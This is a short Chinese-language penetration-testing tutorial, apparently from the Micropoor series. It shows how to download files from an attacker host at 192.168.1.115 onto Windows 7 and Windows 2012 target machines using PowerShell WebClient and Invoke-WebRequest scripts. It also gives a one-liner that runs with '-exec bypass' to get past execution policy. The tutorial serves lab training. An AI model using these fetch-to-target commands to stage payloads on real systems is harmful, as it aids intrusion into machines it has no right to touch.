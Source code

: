 自 Windows7 以后内置了 powershell，如Windows 7 中内置了 PowerShell2.0, Windows 8 中内置了 PowerShell3.0。

**靶机：windows 7** 
powershell $PSVersionTable  
![](/img/07fa8437a844c082c950d5643c994ef1.jpg)

### down.ps1:
基于System.Net.WebClient  
![](/img/c539c15cfe12c5ae4c5846e6b5a485b3.jpg)

![](/img/8772baf3212d72078525abfa44923db1.jpg)

### 附：
```powershell
$Urls = @()
$Urls += "http://192.168.1.115/robots.txt"
$OutPath = "E:\PDF\" 
ForEach ( $item in $Urls) {
$file = $OutPath + ($item).split('/')[-1]
(New-Object System.Net.WebClient).DownloadFile($item, $file) 
}
```

**靶机：windows 2012**
powershell $PSVersionTable  
![](/img/eaa0bd3c317ef0ae922676a353c59f15.jpg)

### down.ps1:
在 powershell 3.0以后，提供 wget 功能，既 Invoke-WebRequest  
![](/img/218c38bbb622f9c8a2634cc1c1a713c3.jpg)

`C:\inetpub>powershell C:\inetpub\down.ps1`  
注：需要绝对路径。

![](/img/e6557dac203ad4ac9cc208f135f56307.jpg)  

![](/img/69ef693d770cee3f0a5bd9dfdee62f0a.jpg)

### 附：
```powershell
$url = "http://192.168.1.115/robots.txt"
$output = "C:\inetpub\robots.txt"
$start_time = Get-Date
Invoke-WebRequest -Uri $url -OutFile $output
Write-Output "Time : $((Get-Date).Subtract($start_time).Seconds) second(s)"
```

**当然也可以一句话执行下载：**

```bash
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.115/robots.txt','E:\robots.txt')
```

![](/img/d40cd11aaad0632c0941441a31e3286f.jpg)

>   Micropoor
